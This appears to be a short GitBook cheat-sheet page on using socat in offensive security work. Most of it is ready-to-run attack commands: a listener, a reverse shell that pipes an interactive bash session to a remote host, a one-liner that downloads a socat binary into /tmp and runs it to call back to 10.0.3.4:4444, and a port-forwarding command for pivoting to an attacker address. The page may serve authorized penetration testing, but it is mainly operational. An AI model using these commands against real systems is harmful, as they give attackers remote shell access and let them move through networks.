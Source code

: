```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Socat

<pre class="language-bash"><code class="lang-bash"><strong># set up listener
</strong><strong>socat file:'tty',raw,echo=0 tcp-listen:4444
</strong></code></pre>

```bash
# reverse shell command
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp<ip>:4444
```

Download and execute `socat`.

{% code overflow="wrap" %}
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
{% endcode %}

## Port Forwarding

An alternative if SSH is not available and the socat binary can be transferred to the target. The `fork` option creates a new process for each connection received, thus, it is possible to handle multiple connection without closing.

```
socat TPC4-LISTEN:<port-on-target>,fork TCP4:<attacker-IP>:<attacker-port>
```

<figure><img src="../../../../.gitbook/assets/socat_port_forward.png" alt=""><figcaption></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Project Page" %}
{% embed url="http://www.dest-unreach.org/socat/" %}
{% endtab %}

{% tab title="Binaries" %}
{% embed url="https://github.com/andrew-d/static-binaries" %}
{% endtab %}
{% endtabs %}
